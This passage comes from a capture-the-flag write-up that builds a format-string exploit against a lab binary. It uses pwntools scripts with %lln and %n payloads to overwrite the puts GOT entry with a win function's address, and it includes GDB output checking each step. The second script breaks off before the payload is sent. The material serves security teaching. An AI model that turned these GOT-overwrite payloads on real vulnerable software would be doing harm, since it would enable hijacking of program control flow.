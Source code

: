 ```console
$ readelf -s ./materials-TryPwnMeOne/NotSpecified/notspecified | grep win
    62: 00000000004011f6    23 FUNC    GLOBAL DEFAULT   15 win
```

However, since `%n` writes the number of characters printed so far to the specified memory address, and printing `0x4011f6` characters is impractical, we will write the address in multiple steps.

First, we will clear the address using the `ll` length sub-specifier with `%n`. This will make `printf` write the number of characters printed as a `long long int` (8 bytes). Since no characters are printed yet, this will essentially zero out the address specified.

```python
#!/usr/bin/env python3

from pwn import *

context.update(os="linux", arch="amd64", log_level="error")
context.binary = binary = ELF("./materials-TryPwnMeOne/NotSpecified/notspecified", checksec=False)

puts_got = binary.got["puts"]

r = process()
gdb.attach(r)

payload = b"%12$lln %13$p %14$p %15$p".ljust(48, b"-")
payload += p64(puts_got)
payload += b"B"*8
payload += b"C"*8
payload += b"D"*8

r.recvuntil(b"Please provide your username\n")
r.sendline(payload)
r.interactive()
r.close()
```

Checking this in `GDB`, we can confirm that it works as expected.

```console
pwndbg> x/gx &'puts@got.plt'
0x404020 <puts@got.plt>:        0x0000000000000000
```

Next, we can write the least significant byte (`0xf6`) of the `win` function's address (`0x4011f6`). To do this, we first make `printf` print `246` characters (which corresponds to `0xf6` in hexadecimal) using `%246c`, then using the `%13$n` format specifier to write this value to the address.

```python
#!/usr/bin/env python3

from pwn import *

context.update(os="linux", arch="amd64", log_level="error")
context.binary = binary = ELF("./materials-TryPwnMeOne/NotSpecified/notspecified", checksec=False)

puts_got = binary.got["puts"]

r = process()
gdb.attach(r)

payload = b"%12$lln%246c%13$n %14$p %15$p".ljust(48, b"-")
payload += p64(puts_got)
payload += p64(puts_got)
payload += b"C"*8
payload += b"D"*8

r.recvuntil(b"Please provide your username\n")
```
